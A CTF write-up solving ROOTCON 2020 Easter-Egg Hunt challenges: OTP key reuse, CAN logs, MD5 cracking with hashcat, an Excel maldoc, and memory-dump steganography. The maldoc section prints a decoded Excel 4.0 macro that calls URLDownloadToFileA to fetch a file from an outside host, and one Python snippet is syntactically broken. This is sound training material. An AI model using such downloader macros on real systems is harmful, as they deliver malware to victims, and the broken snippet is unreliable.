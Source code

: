```yaml
---
layout: post
title: ROOTCON 2020 Easter-Egg Hunt Flags
subtitle: This is my write-up on how I managed to solve some challenges on ROOTCON 2020 Easter-Egg Hunt.
excerpt: This is my write-up on how I managed to solve some challenges on ROOTCON 2020 Easter-Egg Hunt.
comments: false
thumbnail-img: https://i.imgur.com/w1S4Qff.png
categories:
- CTF 
---
```


This is my write-up on how I managed to solve some challenges on ROOTCON 2020 Easter-Egg Hunt. The challenges include, but not limited to Forensics, Crypto, Malware Analysis and Puzzles. The objective is to solve the challenges and acquire the flag.

![](https://i.imgur.com/w1S4Qff.png){: .mx-auto.d-block :}

## Easter-Egg Challenges

### Time Egg Solution

Browse on the given link to learn more about the challenge.

![](https://i.imgur.com/aBk1SYR.png){: .mx-auto.d-block :}

From there you are given two messages:

~~~
: 83d7f7966225c71b556cfd1fa28aa1cb364903c74bfad82400a5b8326ebf110cf610Q: 8380cb903366dd4b7822ba48a9dacf8b6b4b6aa81df1f14b46afd4736ae9111ee2
~~~

The idea of the challenge is to ![](https://crypto.stackexchange.com/questions/59/taking-advantage-of-one-time-pad-key-reuse) [take advantage of one-time pad key re-use].

XOR the two given messages.
~~~
import sys
 def sxor(s1,s2):    
     return ''.join(chr(ord(a) ^ ord(b) for a,b in zip(s1,s2)
 s1 = "83d7f7966225c71b556cfd1fa28aa1cb364903c74bfad82400a5b8326ebf110cf610".decode('hex')
 s2 = "8380cb903366dd4b7822ba48a9dacf8b6b4b6aa81df1f14b46afd4736ae9111ee2".decode('hex')
 s3 = sxor(s1, s2)
 print s3.encode('hex')

#result: 00573c0651431a502d4e47570b506e405d02696f560b296f460a6c410456001214
~~~

[XOR the generated string, with a known plaintext, which in this case, a part of the flag: "rc_easter{". This will result on getting the "r4cc00n5_5" which is part of the key.](https://gchq.github.io/CyberChef/#recipe=From_Hex('Auto')XOR(%7B'option':'UTF8','string':'rc_easter%7B'%7D,'Standard',false)&amp;input=MDA1NzNjMDY1MTQzMWE1MDJkNGU0NzU3MGI1MDZlNDA1ZDAyNjk2ZjU2MGIyOTZmNDYwYTZjNDEwNDU2MDAxMjE0)

![](https://i.imgur.com/xM2o4mk.png){: .mx-auto.d-block :}

The difficult part of the task is you need to make intelligent guesses on trying to complete the key. Eventually, this will result on getting "r4cc00n5_5t0l3_4ll_0f_y0ur_3gg5!" as the key and XORing it with the generated XOR string will result on getting the flag.

**Note:** [I used r4cc00n5_5t0l3_4ll_0f_y0ur_3gg5!i as the full key as I based the flag on its given flag format which is: rc_easter{your_fl4g_h3re!}](https://gchq.github.io/CyberChef/#recipe=From_Hex('Auto')XOR(%7B'option':'UTF8','string':'r4cc00n5_5t0l3_4ll_0f_y0ur_3gg5!i'%7D,'Standard',false)&amp;input=MDA1NzNjMDY1MTQzMWE1MDJkNGU0NzU3MGI1MDZlNDA1ZDAyNjk2ZjU2MGIyOTZmNDYwYTZjNDEwNDU2MDAxMjE0)

![](https://i.imgur.com/5YI6nuS.png){: .mx-auto.d-block :}

**Flag: rc_easter{3ggc1t1n6_0TP_3x3rc153}**

### Space Egg Solution

Install [can-utils](https://github.com/linux-can/can-utils), then use **log2asc** to convert the log files in friendly format.   

Examine the ASC file, then from it, take note of the 400, 401, 402 and 403 events Rx values (as these events stands out). 

![](https://i.imgur.com/S9Is3Q7.png){: .mx-auto.d-block :}

Decode the hex values to get the flag.
(73 70 61 63 65 73 61 74 65 6C 6C 69 74 65 73 68 61 76 65 63 61 6E 74 6F 6F) = spacesatelliteshavecantoo.

**Flag: rc_easter{spacesatelliteshavecantoo}**

Alternatively, you can use **canplayer** to replay log file, and fire up Wireshark to examine the traffic while examining the data. Combining parts of it will also result on getting the flag.

![](https://i.imgur.com/6vBsxK5.png){: .mx-auto.d-block :}

### Power Egg Solution

Build a wordlist that would satisfy the password requirements. (eg. year-goon-color). Then crack the given md5 hash using hashcat or john the ripper. 

This will result on finding that "**2169-ShipCode-eminence**" password match the given hash. 

![](https://i.imgur.com/Jmor5Ik.png){: .mx-auto.d-block :}

Use the password to decrypt the "the_power_egg.enc" file using openssl with "2169-ShipCode-eminence" as the decryption password. 

This will result on getting a PNG file with a QR code. Open the file and use QR code scanner to view the flag.

![](https://i.imgur.com/ttrLI1j.png){: .mx-auto.d-block :}

**Flag: rc_easter{p0w3r_1s_n07h1n6_w17h0u7_c0ntr0L}**

### Reality Egg Solution

Examining the file, shows that it has a behavior similar to ![](https://blog.intel471.com/2020/03/25/analysis-of-an-attempted-attack-against-intel-471/) [**Zloader** banking trojan (aka Terdot]. 

Edit the hex format of the file to unhide the hidden sheet. This will result on being able to see the **hidden Sheet2**. More information on this available on [Excel Maldocs Hidden Sheets](https://isc.sans.edu/forums/diary/Excel+Maldocs+Hidden+Sheets/25876/) article.

![](https://i.imgur.com/cSb5v5R.png){: .mx-auto.d-block :}

Examine the column section, and notice that the **Column "N"** is hidden. Unhide the column and then jump to the (starting) 500th row.

![](https://i.imgur.com/GqhtTT0.png){: .mx-auto.d-block :}

Then convert the decimals values to ASCII to get the command below:
~~~

=CALL("urlmon","URLDownloadToFileA","JJCCJJ",0,"http://easteregg.rootcon.net/sFpWgx9WkHQQ542K/36xQCWUDNaJpdbTB","c:\Users\Public\flag.txt",0,0)
~~~

Browse to http://easteregg.rootcon.net/sFpWgx9WkHQQ542K/36xQCWUDNaJpdbTB to view the flag.

**Flag: rc_easter{r34l1ty_15_0ft3n__d1s4pp01nt1ng}**

### Soul Egg Solution

Browse to given link to view the image. 

![](https://i.imgur.com/GfHDLg4.jpg){: .mx-auto.d-block :}

The image shows strings that are encoded using **Atlantean Language**. 

Just use any decoder like 
![decoder](https://i.imgur.com/gdQmdNv.gif){: .mx-auto.d-block :}
or https://www.dcode.fr/atlantean-language to get the flag.

**Flag: rc_easter{sacr1f1c3h4lft0me}**

### Mind Egg Solution

Note that this is only partial solution as I wasn't able to complete this challenge.

Use zero-width characters decoder on "To Wanda.txt" file to acquire second part of the secret which is: **h_my_l0v3**. I've used [https://330k.github.io/misc_tools/unicode_steganography.html](https://330k.github.io/misc_tools/unicode_steganography.html) (opens in a new tab).

![](https://i.imgur.com/TPrNfnc.png){: .mx-auto.d-block :}

Then use volatility on the vision file (memory dump) to acquire the encoded first part of the secret which is: MUlPdVg1dTsybDJldW9MPSg/SkJGIy11bURKc2AvQDdHMyU3ODczKEByMg==. 

![](https://i.imgur.com/gIOVUZ8.png){: .mx-auto.d-block :}

Stucked on hint.txt particularly on the "**def**" part to fully decode the first part (all others are just using base encoding schemes, e.g. base64 -&gt; base85 -&gt; base58). 

Though the my_treasures zip file link can just be found by using strings on the vision memory dump file and searching for http. 

This will result on finding out: https://uploadfiles[dot]io/kiyqnnt9 which is the link to download the my_treasures file.

**Note:** Solved this after the event, and below is the solution.

Turns out the the &quot;def&quot; was raw inflate which would result on getting the first part of the secret: sc4rl37_w1tc (opens in a new tab) [Turns out that the "**def**" was **raw inflate** which would result on getting the first part of the secret: **sc4rl37_w1tc**](https://gchq.github.io/CyberChef/#recipe=From_Base64('A-Za-z0-9%2B/%3D',true)From_Base85('!-u')From_Base58('123456789ABCDEFGHJKLMNPQRSTUVWXYZabcdefghijkmnopqrstuvwxyz',true)Raw_Inflate(0,0,'Adaptive',false,false)&amp;input=TVVsUGRWZzFkVHN5YkRKbGRXOU1QU2cvU2tKR0l5MTFiVVJLYzJBdlFEZEhNeVUzT0RjektFQnlNZz09).

![](https://i.imgur.com/r8qYFZG.png){: .mx-auto.d-block :}

Use the "sc4rl37_w1tch_my_l0v3" secret as the password to unzip the my_treasures file. This would result on several image files. One of the file contains a QR code which is the flag.

![](https://i.imgur.com/33w0K9Y.png){: .mx-auto.d-block :}

**Flag: rc_easter{y0u_c0uld_n3veR_huRt_m3_I_ju57_f33l_y0u} **


